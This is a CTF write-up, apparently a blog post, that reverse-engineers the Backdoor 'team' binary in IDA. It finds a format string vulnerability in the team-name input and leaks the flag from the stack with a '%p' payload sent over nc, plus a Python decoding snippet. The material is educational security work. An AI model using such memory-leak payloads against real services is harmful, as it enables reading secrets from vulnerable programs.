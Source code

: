 
## TL;DR
* Format string

Given that this challenge was 600 points, I expected to be challenged with this one. But with 91 solves I think the people at SDSLabs kinda messed up on the points for this one lol.

Checking out what type of file we were dealing with here:
{% highlight bash lineanchors %}
[~/Documents/CTFs/backdoor]$ file team
team: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, stripped
{% endhighlight %}

Alright 32 bit, let's crack open IDA for this one then :D

### Aside
This program is stripped, meaning that we do not have any labels for any of the functions (functions don't have function names). IDA tries to search for patterns in the disassembly for where functions exist. For example, functions typically consist of a function prolog, 
{% highlight nasm lineanchors %}
push    ebp
mov     ebp, esp
...
{% endhighlight %}
and at the very end you would see something like, 
{% highlight nasm lineanchors %}
...
leave
ret
{% endhighlight %}

Looking at the code we can identify a function that IDA found to be the main function based on the parameters passed to `__libc_start_main`:

{% highlight nasm lineanchors %}
; int __cdecl main(int argc, const char **argv, const char **envp)
main proc near

argc= dword ptr  8
argv= dword ptr  0Ch
envp= dword ptr  10h

push    ebp
mov     ebp, esp
and     esp, 0FFFFFFF0h
sub     esp, 20h
mov     dword ptr [esp], 0C8h ; size
call    _malloc
mov     [esp+18h], eax
mov     dword ptr [esp], 64h ; size
call    _malloc
mov     [esp+1Ch], eax
mov     dword ptr [esp], offset format ; "Enter teamname: "
call    _printf
mov     eax, ds:stdout
mov     [esp], eax      ; stream
call    _fflush
mov     eax, [esp+18h]
mov     [esp+4], eax
mov     dword ptr [esp], offset a200s ; "%200s"
call    ___isoc99_scanf
mov     dword ptr [esp], offset aEnterFlag ; "Enter flag: "
call    _printf
mov     eax, ds:stdout
mov     [esp], eax      ; stream
call    _fflush
mov     eax, [esp+1Ch]
mov     [esp+4], eax
mov     dword ptr [esp], offset a100s ; "%100s"
call    ___isoc99_scanf
mov     dword ptr [esp], 2 ; seconds
call    _sleep
mov     eax, [esp+1Ch]
mov     [esp+4], eax
mov     eax, [esp+18h]
mov     [esp], eax
call    sub_80486AD
mov     eax, [esp+18h]
mov     [esp], eax      ; ptr
call    _free
mov     eax, [esp+1Ch]
mov     [esp], eax      ; ptr
call    _free
mov     eax, 0
leave
retn
main endp
{% endhighlight %}

My initial guess at what the vulnerability in this program was was a heap overflow because there were some calls to `malloc` and `free` which is very typical of a heap overflow sort of challenge. But looking a little more into this function, we see a call to another function `call    sub_80486AD` which consists of:

1) Opening the file "flag.txt"
{% highlight nasm lineanchors %}
...
mov     dword ptr [esp+4], offset modes ; "r"
mov     dword ptr [esp], offset filename ; "flag.txt"
call    _fopen
mov     [ebp+stream], eax
...
{% endhighlight %}
2) Reading the contents into a stack based buffer
{% highlight nasm lineanchors %}
...
mov     eax, [ebp+stream]
mov     [esp+8], eax    ; stream
mov     dword ptr [esp+4], 64h ; n
lea     eax, [ebp+s]
mov     [esp], eax      ; s
call    _fgets
...
{% endhighlight %}

3) and...drum roll...a format string vulnerability :D
{% highlight nasm lineanchors %}
...
mov     eax, [ebp+format]
mov     [esp], eax      ; format
call    _printf
...
{% endhighlight %}
Now you may ask yourself why is this a format string vulnerabilty? OK, so there is only one parameter given to the `printf` function and with our extensive C knowledge we know that the first parameter to the `printf` function is the format specifier for the function. So if the format specifier is `"%s"` and `printf` goes to get the second parameter then it will go grab the next parameter given by the user as the second parameter, but since we only are giving it one parameter...what would happen? (read more here if you are unsure: [stanford crypto](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)). Let's see which one of our inputs is actually the format string. If we look earlier in the program to see where this `format` string is coming from...
{% highlight nasm lineanchors %}
...
mov     eax, [ebp+arg_0]
mov     [ebp+format], eax
...
{% endhighlight %}
Alright so it is the first parameter to this function that is called. And if we look at when this function is called...
{% highlight nasm lineanchors %}
mov     eax, [esp+18h]
mov     [esp], eax
call    sub_80486AD
{% endhighlight %}
So `esp+18h` is where our buffer is located and that turns out to be...
{% highlight nasm lineanchors %}
mov     dword ptr [esp], offset format ; "Enter teamname: "
call    _printf         ; print out "Enter teamname: "
mov     eax, ds:stdout
mov     [esp], eax      ; stream
call    _fflush
mov     eax, [esp+18h]  ; the buffer passed into the vulnerable function
mov     [esp+4], eax
mov     dword ptr [esp], offset a200s ; "%200s"
call    ___isoc99_scanf ; read user input into the teamname buffer
{% endhighlight %}
So we know that what we enter into our teamname is the format string :D OK, so know we have the power to write and read to the stack and if we think about it for a second, our flag was read in from a file and put on a stack buffer... why don't we just dump the stack and then get our flag? (We thought that there was a pointer to the flag that we could just do a direct parameter access ie. "%12$s" to print out the flag really easily instead of parsing the stack but after a while of bruteforcing the direct parameter to access we started printing out environment variables and we knew that we went too far lol).

{% highlight python lineanchors %}
[~] python -c 'print "%p"*30' | nc hack.bckdr.in 8004
Enter teamname: Enter flag: <contents of stack>
[~] python
>>> flag_hex = "<hex of flag>"
>>> "".join([chr(int(a[6:8], 16)) + chr(int(a[4:6], 16)) + chr(int(a[2:4], 16)) + chr(int(a[0:2], 16)) for a in flag_hex.split("0x") if a]
<flag>
{% endhighlight %}

### Note
Since these challenges are still up, I just wrote down the steps to get the flag and not the actual flag itself

So there you have it :D

I would show the work that I did 